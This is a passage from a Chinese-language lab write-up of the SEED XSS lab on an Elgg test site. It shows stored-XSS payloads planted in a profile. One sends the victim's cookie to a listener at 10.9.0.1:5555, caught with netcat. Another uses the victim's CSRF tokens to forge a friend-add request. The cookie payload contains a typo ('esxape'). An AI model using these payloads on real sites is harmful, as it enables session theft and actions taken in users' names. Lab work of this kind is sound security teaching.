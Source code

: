 保存后，看到已经生效

<img src="https://i.loli.net/2021/07/21/uxA5MY6WwpQP28f.png" alt="image-20210720162334798" style="zoom: 67%;" />

# Task 3: Stealing Cookies from the Victim’s Machine

这个 Task 用来熟悉如何发回数据。修改 Samy 的 profile 如图所示

```html
<script>
    document.write('<img src=http://10.9.0.1:5555?c=' +
                   esxape(document.cookie) +
                   '>');
</script>
```

<img src="https://i.loli.net/2021/07/21/POaxsDobUyGFJ3g.png" alt="image-20210720162710319" style="zoom:67%;" />

在端口上开启监听

```shell
$ nc -lknv 5555
```

登录 Alice 账号，点进 Samy 的 profile，看到返回了 cookie

<img src="https://i.loli.net/2021/07/21/A4T217hExDrLPVB.png" alt="image-20210720162909994" style="zoom: 50%;" />

# Task 4: Becoming the Victim’s Friend

这个 Task 利用 js 实现 GET 方法。修改 Samy 的 profile 如图所示

```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var sendurl="http://www.seed-server.com/action/friend/add?friend=59" +
            ts + token;
        
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

<img src="https://i.loli.net/2021/07/21/RGf21x36UkzpBHE.png" alt="image-20210720164253715" style="zoom:67%;" />

登录 Alice 账号，点进 Samy 的 profile，看到已经添加了好友
